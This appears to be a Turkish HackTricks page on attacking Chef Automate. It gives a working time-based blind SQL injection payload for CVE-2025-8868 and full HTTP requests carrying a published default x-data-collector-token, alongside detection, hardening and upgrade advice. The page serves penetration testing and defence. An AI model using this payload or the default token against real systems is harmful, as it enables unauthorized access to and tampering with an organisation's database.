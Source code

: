 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## Genel Bakış

Bu sayfa Chef Automate örneklerini enumerate etmek ve saldırmak için pratik teknikleri toplar; özellikle:
- gRPC-Gateway-backed REST endpoints keşfetme ve validation/hata yanıtları aracılığıyla istek şemalarını çıkarma
- varsayılanlar mevcut olduğunda x-data-collector-token authentication header'ını kötüye kullanma
- /api/v0/compliance/profiles/search içindeki filters[].type alanını etkileyen Compliance API'de Time-based blind SQL injection (CVE-2025-8868)

> Not: Backend yanıtlarında grpc-metadata-content-type: application/grpc header'ının bulunması genellikle REST çağrılarını gRPC servislerine köprüleyen bir gRPC-Gateway olduğunu gösterir.

## Recon: Architecture and Fingerprints

- Front-end: Often Angular. Static bundle'lar REST yolları hakkında ipucu verebilir (ör. /api/v0/...)
- API transport: REST to gRPC via gRPC-Gateway
- Yanıtlar grpc-metadata-content-type: application/grpc içerebilir
- Database/driver fingerprints:
- Hata gövdeleri pq: ile başlıyorsa Go pq driver'ı kullanan PostgreSQL'i kuvvetle işaret eder
- İlginç Compliance endpoints (auth required):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate, istekleri özel bir header ile authenticate eden bir data collector sunar:

- Header: x-data-collector-token
- Risk: Bazı ortamlar, korumalı API yollarına erişim sağlayan varsayılan bir token'ı saklayabilir. Wild'da gözlemlenen bilinen varsayılan:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

Mevcutsa, bu token auth ile engellenmiş Compliance API endpoint'lerini çağırmak için kullanılabilir. Hardening sırasında varsayılanları döndürmeyi/devre dışı bırakmayı her zaman deneyin.

## API Schema Inference via Error-Driven Discovery

gRPC-Gateway-backed endpoints sıklıkla leak eden ve beklenen istek modelini tanımlayan yararlı doğrulama hataları gösterir.

For /api/v0/compliance/profiles/search, backend şu yapıda bir body bekler: filters dizisi, her eleman bir nesne olup:

- type: string (filter field identifier)
- values: array of strings

Örnek istek yapısı:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
Hatalı JSON veya yanlış alan tipleri genellikle ipuçlarıyla 4xx/5xx tetikler ve header'lar gRPC-Gateway davranışını gösterir. Bunları alanları eşlemek ve enjeksiyon yüzeylerini belirlemek için kullanın.

## Compliance API SQL Injection (CVE-2025-8868)

- Etkilenen endpoint: POST /api/v0/compliance/profiles/search
- Enjeksiyon noktası: filters[].type
- Vulnerability class: time-based blind SQL injection in PostgreSQL
- Kök neden: `type` alanını dinamik bir SQL fragment'ine interpolate ederken parameterization/whitelisting uygulanmaması (muhtemelen identifiers/WHERE clauses oluşturmak için kullanılıyor). `type` içindeki crafted değerler PostgreSQL tarafından değerlendirilir.

Working time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Teknik notlar:
- Orijinal string'i tek tırnak ile kapatın
- pg_sleep(N) çağıran bir subquery ile birleştirin
- || ile string bağlamına geri girin, böylece final SQL, type'ın gömülü olduğu her durumda söz dizimi açısından geçerli kalır

### Farklı gecikme ile doğrulama

Çift istek gönderin ve sunucu tarafı yürütmeyi doğrulamak için yanıt sürelerini karşılaştırın:

- N = 1 saniye
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 saniye
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- Yanıt süreleri pg_sleep(N) ile artıyor
- HTTP 500 yanıtları denemeler sırasında pq: detayları içerebilir; bu SQL yürütme yollarını doğrular

> İpucu: Gürültüyü ve false pozitifleri azaltmak için bir zamanlama doğrulayıcısı kullanın (ör. istatistiksel karşılaştırmalı birden fazla deneme).

### Etki

Kimlik doğrulanmış kullanıcılar — veya varsayılan x-data-collector-token'ı kötüye kullanan kimlik doğrulanmamış aktörler — Chef Automate’in PostgreSQL bağlamında rastgele SQL çalıştırabilir; bu, uyumluluk profilleri, yapılandırma ve telemetri gizliliği ile bütünlüğünü riske atar.

### Etkilenen sürümler / Düzeltme

- CVE: CVE-2025-8868
- Yükseltme yönlendirmesi: Satıcı bildirimlerine göre Chef Automate 4.13.295 veya daha yeni (Linux x86)

## Tespit ve Adli İnceleme

- API katmanı:
- /api/v0/compliance/profiles/search üzerindeki 500'leri izleyin; filters[].type içinde tırnak işaretleri ('), birleştirme (||) veya pg_sleep gibi fonksiyon referansları olup olmadığına bakın
- gRPC-Gateway akışlarını belirlemek için yanıt başlıklarında grpc-metadata-content-type'ı inceleyin
- Veritabanı katmanı (PostgreSQL):
- pg_sleep çağrılarını ve hatalı biçimlendirilmiş identifier hatalarını denetleyin (genellikle Go pq sürücüsünden gelen pq: önekleriyle ortaya çıkar)
- Kimlik Doğrulama:
- x-data-collector-token kullanımını, özellikle bilinen varsayılan değerleri, API yolları genelinde kaydedin ve uyarı verin

## Önlemler ve Sertleştirme

- Hemen:
- Varsayılan data collector token'larını değiştirin/devre dışı bırakın
- Data collector uç noktalarına gelen trafiği kısıtlayın; güçlü, benzersiz tokenlar zorunlu kılın
- Kod düzeyi:
- Sorguları parametreleyin; SQL parçalarını asla string ile birleştirmeyin
- Sunucuda izin verilen type değerlerini sıkı bir şekilde beyaz listeye alın (enum)
- Identifiers/clauses için dinamik SQL derlemesinden kaçının; dinamik davranış gerekiyorsa güvenli identifier tırnaklama ve açık beyaz listeler kullanın

## Pratik Test Kontrol Listesi

- x-data-collector-token'ın kabul edilip edilmediğini ve bilinen varsayılanın çalışıp çalışmadığını kontrol edin
- Doğrulama hataları oluşturarak ve hata mesajlarını/başlıkları okuyarak Compliance API istek şemasını haritalayın
- Sadece values dizileri veya üst düzey metin alanları değil, daha az belirgin "identifier-benzeri" alanlarda (ör. filters[].type) SQLi test edin
- Bağlamlar arasında SQL sözdizimini geçerli tutmak için birleştirme ile zaman tabanlı teknikler kullanın

## Referanslar

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
